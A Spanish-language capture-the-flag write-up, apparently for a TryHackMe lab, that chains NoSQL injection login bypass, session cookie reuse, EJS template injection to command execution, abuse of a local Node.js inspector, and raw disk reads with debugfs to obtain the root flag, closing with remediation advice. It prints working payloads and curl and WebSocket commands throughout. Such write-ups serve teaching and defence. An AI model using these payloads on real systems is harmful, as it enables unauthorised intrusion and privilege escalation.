







Byte Lotus Poolside — de NoSQLi a root vía Node Inspector
Resumen
"Byte Lotus Poolside" gestiona reservas de cabañas y tumbonas. Su login es vulnerable a inyección NoSQL, lo
que permite autenticarse como el usuario attendant sin conocer su contraseña. Con esa sesión se
accede a un panel de staff que renderiza plantillas EJS controladas por el usuario (SSTI → RCE) como
poolside. Desde ahí, un depurador de Node.js expuesto en localhost:9229 permite
pivotar a un segundo proceso que corre como pipelinesvc, miembro del grupo disk — lo
que permite leer el disco en crudo con debugfs, saltándose los permisos del sistema de archivos,
y llegar a /root/root.txt.
Escenario
El enunciado narrativo venía cargado de pistas técnicas: una sesión que "se queda caliente en una tumbona y un desconocido se sienta en ella" apuntaba directamente a robo y reutilización de cookie; una "shell en la playa que responde" confirmaba que en algún punto se lograba RCE real; y la instrucción de "seguir sus pasos y escalar por donde él escaló" marcaba el objetivo final: reconstruir la cadena completa de explotación hasta root.
Artefactos y herramientas
gobuster— enumeración de rutascurl— envío manual de peticiones JSON y reutilización de cookies- DevTools del navegador — inyección manual de la cookie de sesión
- Chrome DevTools Protocol (CDP) /
Runtime.evaluatevía WebSocket — control del Node Inspector debugfs(e2fsprogs) — lectura cruda del dispositivo de bloque
Análisis
1. Reconocimiento inicial
El login es un formulario simple de "Staff / Guest ID" + "Passphrase" que envía un POST /login.
Una enumeración de rutas revela /staff devolviendo 403 ("Staff access only"), y las cabeceras de
cualquier respuesta confirman X-Powered-By: Express, es decir, Node.js + Express. Esto descarta de
entrada los payloads clásicos de SQL injection, ya que en este stack la base de datos suele ser NoSQL (NeDB,
MongoDB).
gobuster dir -u http://<TARGET_IP> -w /usr/share/wordlists/dirb/common.txt -x php,py,txt,html,json
/logout (Status: 302) [--> /]
/staff (Status: 403) [Size: 1547]
2. NoSQL injection: bypass del login
attendant sin conocer su contraseña.Las bases de datos NoSQL orientadas a documentos construyen las consultas como objetos JSON, no como texto.
Si la aplicación acepta JSON arbitrario en el body, un atacante puede inyectar operadores especiales en vez de
un valor simple. Aquí, el operador $ne ("distinto de") convierte la condición de contraseña en
"distinta de null", lo que siempre es cierto. El formulario HTML normal no permite enviar esta estructura, así
que la petición se construye manualmente con Content-Type: application/json:
curl -i -s -X POST \
-H "Content-Type: application/json" \
-d '{"username":"attendant","password":{"$ne": null}}' \
http://<TARGET_IP>/loginLa respuesta es {"ok":true,"role":"staff"} junto con una cookie connect.sid nueva
en Set-Cookie. El código fuente, recuperado más adelante vía RCE, confirma la causa raíz: la ruta
de login ejecuta db.findOneAsync({ username, password }) pasando directamente el objeto recibido
del cliente a la consulta de NeDB, sin validar que password sea un string.
Resultado: sesión válida de attendant obtenida sin contraseña real.
3. Session hijacking y acceso al panel de staff
/staff.La cookie connect.sid es, en la práctica, una contraseña temporal: quien la posea es tratado
como esa sesión por el servidor. Se inyecta manualmente en el navegador (DevTools → Storage → Cookies) o se
adjunta en peticiones con curl -b.

Recargando /staff con esa cookie activa, el servidor la reconoce como una sesión válida de
attendant con rol staff y concede acceso al panel "Cabana Desk", que incluye un campo
de plantilla EJS editable para personalizar mensajes de confirmación a huéspedes.

4. SSTI en EJS → RCE como poolside
EJS permite mezclar HTML con JavaScript real dentro de <%= ... %>. El panel pasa el
contenido completo de req.body.template —lo que escribe el usuario— directamente a
ejs.render(), sin tratarlo solo como datos. Como ese JavaScript corre en el mismo proceso Node.js
del servidor, cualquier código insertado ahí se ejecuta con los privilegios del servidor, incluyendo el módulo
child_process. Se usa process.mainModule.require(...) en vez de require(...)
directo porque en el contexto de la plantilla compilada esa variable local no siempre está disponible, mientras
que process.mainModule sí permite recuperar de forma fiable el require real del
proceso.
<%= process.mainModule.require('child_process').execSync('id').toString() %>curl -i -s -b "connect.sid=<cookie>" \
-X POST http://<TARGET_IP>/staff/preview \
--data-urlencode "template=<%= process.mainModule.require('child_process').execSync('id').toString() %>"La respuesta confirma ejecución de comandos como poolside: uid=996(poolside)
gid=996(poolside). Listando /home se confirma además la existencia de los usuarios
pipelinesvc y poolside, ambos relevantes en la escalada posterior.

<%= process.mainModule.require('child_process').execSync('cat /home/poolside/user.txt').toString() %>
User flag: THM{w4rm_s3ss10n_h1j4ck3d}
5. Pivote a pipelinesvc vía Node Inspector
poolside a un segundo proceso con más privilegios.Node.js incluye un modo de depuración remota (--inspect), que abre un servidor en el puerto
9229 implementando el Chrome DevTools Protocol (CDP). Quien pueda conectarse a ese puerto obtiene
control total sobre el proceso depurado, incluyendo ejecución arbitraria vía Runtime.evaluate. En
este reto el inspector de un segundo servicio (processor.js, corriendo como
pipelinesvc) estaba correctamente limitado a localhost, pero eso no protege nada
cuando el atacante ya tiene RCE en la misma máquina.
<%= process.mainModule.require('child_process').execSync('curl -s http://127.0.0.1:9229/json/list').toString() %>
El JSON devuelto incluye un webSocketDebuggerUrl, la dirección a la que conectarse por
WebSocket para hablar CDP con ese proceso. Tras confirmar que el WebSocket es alcanzable, se envía
Runtime.evaluate con la expresión a ejecutar:
node -e "const ws=new WebSocket('ws://127.0.0.1:9229/<id>');
ws.onopen=function(){
ws.send(JSON.stringify({
id:1,
method:'Runtime.evaluate',
params:{ expression:\"process.mainModule.require('child_process').execSync('id').toString()\" }
}))
};
ws.onmessage=function(m){ console.log(m.data); process.exit() };"Resultado: uid=995(pipelinesvc) gid=995(pipelinesvc)
groups=995(pipelinesvc),6(disk) — el dato crítico es la pertenencia al grupo disk.
6. Escalada final: grupo disk + debugfs → root flag
disk para leer /root/root.txt sin shell de root.Los dispositivos de bloque (p. ej. /dev/nvme0n1p1) tienen sus propios permisos, normalmente
restringidos a root y al grupo disk. Leer el dispositivo directamente permite acceder al sistema
de archivos byte a byte, al margen de los permisos que ese mismo sistema de archivos impone a nivel de
directorios y archivos. debugfs (de e2fsprogs) interpreta esa estructura interna sin
pasar por el kernel VFS ni por los permisos normales.
which debugfs
> /usr/sbin/debugfs
lsblk -f
> nvme0n1p1 ext4 cloudimg-rootfs /echo ls /root | debugfs /dev/nvme0n1p1
> debugfs: ls /root
> ... 624 (3936) root.txt
echo cat /root/root.txt | debugfs /dev/nvme0n1p1
> debugfs: cat /root/root.txt
> THM{r4w_d1sk_4cc3ss_w4s_t00_much}
Root flag: THM{r4w_d1sk_4cc3ss_w4s_t00_much}
Cadena de ataque (kill chain)
| # | Paso |
|---|---|
| 1 | Reconocimiento: Express/Node identificado por cabeceras; /staff existe pero devuelve 403 |
| 2 | NoSQL injection: login con {"password":{"$ne":null}} vía JSON, bypass como attendant |
| 3 | Session hijacking: reutilización directa de la cookie connect.sid obtenida del bypass |
| 4 | Acceso privilegiado: panel de staff (/staff) accesible con la sesión robada |
| 5 | SSTI: plantilla EJS de /staff/preview acepta contenido de plantilla no confiable |
| 6 | RCE inicial como poolside vía child_process.execSync |
| 7 | User flag recuperada de /home/poolside/user.txt |
| 8 | Descubrimiento: Node Inspector activo en 127.0.0.1:9229 para un segundo proceso (processor.js) |
| 9 | Pivote: WebSocket al inspector + Runtime.evaluate → RCE como pipelinesvc |
| 10 | Hallazgo crítico: pipelinesvc pertenece al grupo disk |
| 11 | Escalada final: lectura raw del dispositivo de bloque con debugfs |
| 12 | Root flag recuperada de /root/root.txt sin shell de root real |
Indicadores / artefactos clave
- Archivo:
app.js— contiene eldb.findOneAsync({ username, password })vulnerable y elejs.render(template, ...)con plantilla controlada por el usuario - Archivo:
/opt/pipelinesvc/telemetry/processor.js— segundo proceso con inspector expuesto en localhost:9229 - Dispositivo:
/dev/nvme0n1p1(ext4, partición raíz) leído con debugfs
Conclusiones
La cadena completa combina un fallo de validación de tipos en una consulta NoSQL, una plantilla server-side
sin separar código de datos, un servicio de depuración expuesto incluso en localhost y un exceso de privilegio
a nivel de grupo del sistema. Ninguno de los pasos individuales requiere romper criptografía ni fuerza bruta:
todo el acceso a root se consigue abusando de configuraciones y diseños inseguros. Las medidas de remediación
clave serían validar tipos antes de las consultas a la base de datos, no renderizar nunca plantillas cuyo
contenido provenga del usuario, no exponer el inspector de Node.js en producción, aplicar mínimo privilegio en
los grupos del sistema (ningún servicio debería pertenecer a disk, sudo o
docker sin necesidad justificada) y reforzar las cookies de sesión con HttpOnly,
Secure y SameSite=Strict, regenerando el identificador tras cada cambio de
privilegio.